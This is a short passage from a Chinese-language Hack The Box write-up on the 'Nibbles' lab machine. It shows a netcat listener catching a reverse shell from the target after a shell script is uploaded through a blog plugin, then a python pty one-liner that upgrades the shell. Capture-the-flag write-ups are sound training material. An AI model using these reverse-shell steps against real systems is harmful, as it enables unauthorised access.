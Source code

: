         ![](/style/image/2024-02-29-00-09-24.png)
        ![](/style/image/2024-02-29-00-22-16.png)

    + 单击上传shell脚本进行反弹：

        ```
        ┌──(kali㉿kali)-[~/桌面/HTB/Nibbles]
        └─$ nc -nlvp 1234
        listening on [any] 1234 ...
        connect to [10.10.16.9] from (UNKNOWN) [10.10.10.75] 56352
        /bin/sh: 0: can't access tty; job control turned off
        $ whoami
        nibbler
        $ which python
        $ which python3
        /usr/bin/python3
        $ python3 -c "import pty;pty.spawn('/bin/bash')"
        nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /
        <ml/nibbleblog/content/private/plugins/my_image$ cd /                        
        nibbler@Nibbles:/$ dir
        dir
        bin   home	      lib64	  opt	sbin  tmp      vmlinuz.old
        boot  initrd.img      lost+found  proc	snap  usr
        dev   initrd.img.old  media	  root	srv   var